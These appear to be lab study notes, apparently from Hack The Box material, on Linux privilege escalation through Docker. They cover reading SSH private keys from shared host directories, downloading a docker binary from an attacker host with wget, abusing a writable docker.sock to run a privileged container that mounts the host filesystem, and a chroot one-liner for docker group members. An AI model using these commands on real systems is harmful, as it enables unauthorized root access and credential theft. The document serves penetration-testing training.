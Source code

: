 ## Docker Shared Directories

When we get access to the docker container and enumerate it locally, we might find additional (non-standard) directories on the docker’s filesystem.

```shell-session
root@container:~$ cd /hostsystem/home/cry0l1t3
root@container:/hostsystem/home/cry0l1t3$ ls -l

-rw-------  1 cry0l1t3 cry0l1t3  12559 Jun 30 15:09 .bash_history
-rw-r--r--  1 cry0l1t3 cry0l1t3    220 Jun 30 15:09 .bash_logout
-rw-r--r--  1 cry0l1t3 cry0l1t3   3771 Jun 30 15:09 .bashrc
drwxr-x--- 10 cry0l1t3 cry0l1t3   4096 Jun 30 15:09 .ssh


root@container:/hostsystem/home/cry0l1t3$ cat .ssh/id_rsa
```
```
c1dn3y@htb[/htb]$ ssh cry0l1t3@<host IP> -i cry0l1t3.priv
```

## Docker Sockets

```shell-session
htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

```shell-session
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```
## Docker Group

check if your in the docker group
Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run `docker` as root. All three options allow us to work with Docker to escalate our privileges.
```shell-session
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

list docker images
```shell-session
docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```

## Docker Socket

```shell-session
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

you are now root